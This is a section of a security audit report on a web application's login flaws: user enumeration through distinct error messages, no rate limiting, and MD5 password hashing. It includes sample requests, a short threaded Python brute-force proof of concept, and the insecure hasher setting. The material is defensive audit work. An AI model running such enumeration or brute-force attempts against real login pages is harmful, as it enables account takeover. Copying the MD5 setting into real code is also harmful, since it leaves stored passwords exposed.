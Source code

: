 
### 3.3 Authentication Vulnerabilities (Critical)

**Vulnerability ID**: VULN-003  
**OWASP Category**: A07:2021 – Identification and Authentication Failures  
**CWE**: CWE-203, CWE-307, CWE-916  
**CVSS Score**: 8.5 (High)  

#### 3.3.1 User Enumeration

##### Description
Different error messages allow attackers to determine valid usernames.

##### Proof of Concept
```python
# Valid username response
POST /login/
username=admin&password=wrongpass
Response: "Invalid password for user 'admin'"

# Invalid username response
POST /login/
username=doesnotexist&password=wrongpass
Response: "Username 'doesnotexist' does not exist in our system"
```

#### 3.3.2 Brute Force Vulnerability

##### Description
No rate limiting allows unlimited login attempts.

##### Proof of Concept
```python
import requests
import concurrent.futures

def brute_force(username, passwords):
    with concurrent.futures.ThreadPoolExecutor(max_workers=100) as executor:
        for password in passwords:
            response = executor.submit(try_login, username, password)
            if "Invalid password" not in response.result():
                return password
```

#### 3.3.3 Weak Password Storage

##### Description
Passwords are hashed using MD5, which is cryptographically broken.

##### Evidence
```python
# From settings.py
PASSWORD_HASHERS = [
    'django.contrib.auth.hashers.MD5PasswordHasher',
]
```
